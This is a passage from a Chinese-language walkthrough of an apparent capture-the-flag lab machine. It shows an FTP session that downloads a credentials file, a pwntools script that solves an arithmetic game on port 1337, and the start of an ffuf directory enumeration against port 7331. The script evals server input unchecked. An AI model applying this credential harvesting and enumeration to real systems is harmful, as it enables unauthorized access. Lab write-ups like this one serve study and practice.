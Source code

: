 ```shell
227 Entering Passive Mode (192,168,1,122,189,104).
150 Opening BINARY mode data connection for creds.txt (11 bytes).
226 Transfer complete.
11 bytes received in 0.01 secs (1.8611 kB/s)
ftp> quit
221 Goodbye.
```

其中*creds.txt*文件内容是：*nitu:81299*，在此得到一个账户和密码，此外在*message.txt*文件中注意到一个账户名：*nitish81299*，同时根据*game.txt*文件中的信息知道只要通过靶机*1337*端口部署的游戏就可以获得奖励。

通过*nc*连接到靶机的*1337*端口，知道该游戏是进行算数运算，那么刚好可以使用*pwntool*工具解决，python代码如下：

```python
from pwn import *

r = remote("192.168.1.122", 1337)

r.recvuntil("gift.\n")

for i in range(1001):
    a = r.recvline()
    a = eval(a)
    b = list(a)
    c = str(b[0]) + b[1] + str(b[2])
    p = eval(c)
    r.recvuntil(">")
    r.sendline(str(p))

r.interactive()
```

最终得到信息：

```
Here is your gift, I hope you know what to do with it:

1356, 6784, 3409
```

考虑到给出的三个数不是暴露的端口，猜测可能是账户密码。

> 之后发现没什么用~

### 目录枚举

查看**7331**端口下的网页源码没有发现有用的信息，那么只能进行目录枚举。

```shell
┌──(root💀kali)-[~]
└─# ffuf -w /usr/share/wordlists/dirb/big.txt -u http://192.168.1.122:7331/FUZZ -mc 200 -c

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.1.122:7331/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
```